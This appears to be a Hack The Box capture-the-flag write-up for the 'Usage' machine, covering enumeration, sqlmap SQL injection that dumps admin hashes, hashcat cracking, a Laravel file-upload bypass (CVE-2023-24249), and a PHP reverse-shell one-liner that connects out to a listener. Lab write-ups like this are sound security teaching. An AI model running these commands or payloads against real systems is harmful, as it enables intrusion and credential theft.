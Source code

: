 ```yaml
---
layout: post
title:  "HTB: Usage Writeup"
date:   2024-05-01 13:08:01 -0400
categories: CTF
---
```



Usage starts with a web application vulnerable to SQL injection. After a thorough enumeration, I'll use sqlmap to get a database dump with some hashes. After cracking the hash of an web admin account, I'll use CVE-xxxx-xxxx to exploit a file upload vulnerability to get a reverse shell as www. For lateral movement, I'll explore some hidden files to find a user password. I'll then use a wildcard trick to leverage a custom binary to dump a root ssh key. 


Enumeration

As usual for an easy box, I set up a basic scan of the IP
nmap -sC -sV 10.10.11.18

[pic link] -nmap results

Looks like we have ports open for ssh and http. It gives us the host name, so we can add this to /etc/hosts to access the page. This is pretty typical, but I like to set up a more detailed scan to run in the background while I check out the webpage. I'll try to run directory busting too, to cover my bases.

echo "10.10.11.18 usage.htb" | sudo tee -a /etc/hosts
tail /etc/hosts
nmap -sC -sV -p- A usage.htb
dirb http://usage.htb/ /usr/share/wordlists/dirb/common.txt
dirb http://admin.usage.htb/ /usr/share/wordlists/dirb/common.txt

[pic link] -

While that's running, I can check out the web page. Landing page is a login form. There are also links to "Register" and "Admin". "Admin" gives us a subdomain that we can add. 

[pic link] -landing page

echo "10.10.11.18 admin.usage.htb" | sudo tee -a /etc/hosts
tail /etc/hosts

[pic link] -admin portal

Inspecting the admin page gives us version numbers for jQuery 2.1.4 and Bootstrap 3.3.5 as well as laravel_session and XSRF-TOKEN cookies. 

[pic link] -inspect results
[pic link] -inspect cookie results

Since version numbers are always worth checking out, I spent some time googling the information I have so far. I found potential XSS and Prototype Pollution vulnerabilities for jQuery, but no public exploits. Bootstrap versions earlier than 3.4.1 also appear vulnerable to XSS, but it requires tooltip/popover elements. Larvel is a framework for web apps, and there are multiple vulnerabilites listed, but without the version number I can't tell which could be targets. However, I did note that Laravel is PHP based.

I've now got a list of vulnerabilites I could start researching, but I'm going to finish enumerating first to keep from falling down any rabbit holes. 

I try Laravel default credentials for the admin page with no luck. However, registering for the site actually works, and shows me four blog posts with a little HTB hint about Server Side Penetration testing and another pointer towards Laravel using PHP. Unfortunately, theres no additional access, and my registered credentials don't work on the admin page. 

[pic link] -Blog posts

At this point I circle back to my running searches. Nmap didn't return anything new, but the dirb search on admin.usage gave us /uploads, with a /images subdirectory as well as /vendor. Unfortunately I get a 403 when I try to access either of these. 

XSRF seems unlikely because there are tokens in place. I try some XSS checks as well, but none of the forms reflect any outputs, so that seems to be a no-go as well. I finally get something interesting while I'm checking for SQL injection possibilities (from this list: https://book.hacktricks.xyz/pentesting-web/sql-injection)- using the ' character on the password reset page returns "500 | SERVER ERROR", which indicates it might be injectable.

Firing up Burpsuite, I sent the request to the repeater, and spent some time looking through the response without gaining any additional insight. After multiple attempts, I finally got this command put together: 

sqlmap -r burp.txt -p 'email' --level=5 --risk=3 v 7 --batch --dbs

Which breaks down into the following:

-r burp.txt: uses the http request saved as "burp.txt" (intercept in burpsuite, right click > save item)
-p 'email':target this parameter for SQLi. Has to be blank in the request apparently
--level=5: 1-5 level of testing to perform, 5 being most thorough
--risk=3: 1-3 level of risk, 3 being most intrusive
-v 7: max verbosity
--batch: skip user input
--dbs: enumerate databases

And got 3 databases:
[pic link] - sqlmap results

I then ran the following to get the tables and dump the info of admin_users, adding in the DB type to make it run a little faster. 

sqlmap -r burp.txt -p 'email' --dbms=mysql --level=5 --risk=3 -v 7 --batch -D usage_blog --tables
sqlmap -r burp.txt -p 'email' --dbms=mysql --level=5 --risk=3 -v 7 --batch -D usage_blog -T admin_users --dump

which yielded a nice hash for admin.

[pic link -] sqlmap hash

I then used https://hashes.com/en/tools/hash_identifier to identify the hash as bcrypt, and dropped it into a text file with vim. Hashcat gets put into work next and quickly yields admin:whatever1. Good ol' rockyou!

hashcat -m 3200 -a 0 adminhash.txt /usr/share/wordlists/rockyou.txt.gz

[pic link] - hashcat output

Worth trying over ssh, but no dice. The webpage works though, and takes us to the dashboard. The dashboard immediately gives some information, including the version of laravel I was missing earlier- 10.18.0.

I spent some time playing around with the other pages, trying to add a new user, change paths in the permission section, messing with the search field, all to no avail. I finally circled back to the laravel version number and found CVE-2023-24249 along with a proof of concept here:
https://flyd.uk/post/cve-2023-24249/. 

Replicating the POC was another story. I found this part to be very particular with how and when each step was performed. I started with a text.jpg file, and found I had to hit submit in the browser, quickly intercept that request, modify the extension to .php, and quickly refresh the browser to make it accept the alternate extension. 

[pic link] -admin upload pic

Once I got the process nailed down, I started trying php reverse shells from https://www.revshells.com/ ("activating" by visting the files location in the /uploads/images directory I found with the earlier scan), but got no success until this one: 

[pic link] - php/html shell pic

Which seemed to only be able to execute php commands, and I was not able to navigate any filesystem with. So I doubled down on the php revshells, set up a listener, and inserted another reverse shell command into my malicious web page. 

ifconfig 
(grab listener address)

nc -nvlp 8001
php -r '$sock=fsockopen("10.10.14.54",8001);exec("sh<&3>&3 2>&3");'

and I finally catch a shell!

[pic link ] - reverse shell
